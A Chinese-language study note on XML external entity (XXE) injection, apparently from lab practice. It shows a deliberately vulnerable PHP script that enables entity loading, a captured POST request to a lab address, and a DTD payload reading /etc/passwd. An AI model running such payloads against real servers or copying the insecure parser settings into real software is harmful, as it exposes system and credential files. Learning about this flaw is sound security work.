



---
tags:
  - WEB
  - XXE
Date: 2026-01-04
---
## 什么是XXE
XXE 全称 XML 外部实体注入
实体来自SYSTEM本地资源public公共计算机

其中DTD声明会读取外部文件，可以使用命名实体呈现到页面
漏洞示例：

```php
<?php

error_reporting(0);

libxml_disable_entity_loader(false);

$xml = file_get_contents('php://input');

if(isset($xml)){

    $dom = new DOMDocument();

    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);

    $creds = simplexml_import_dom($dom);

    $benben = $creds->admin;

    echo $benben;

}

highlight_file(__FILE__);

?>
```
最主要的在于`$benben = $creds->admin;`
POST提交参数后echo了admin分支

抓包提交POST查看响应并且更改发包
```http
POST /xxe01/xxe01/class06.php HTTP/1.1

Host: 172.28.222.35

Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-GB;q=0.6

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://172.28.222.35/

DNT: 1

Upgrade-Insecure-Requests: 1

Accept-Encoding: gzip, deflate

Content-Type: application/xml;charset=utf-8

Content-Length: auto

<root><admin>test</admin></root>
```

需要注意的是content-type需要对应的xml格式



成功看到admin节点的回显

因此在此基础上增加DTD声明读取外部文件
注意形式 <!DOCTYPE root [<内容>]>
这里声明的root应和根元素一致，除非宽松解析可能也会被解析使用DTD
```XML
<!DOCTYPE root [<!ENTITY guc SYSTEM "file:///etc/passwd">]>
```
此处命名实体guc SYSTEM+file协议读取根目录的文件
file协议从而读取/passwd




不同的程序支持的伪协议不同


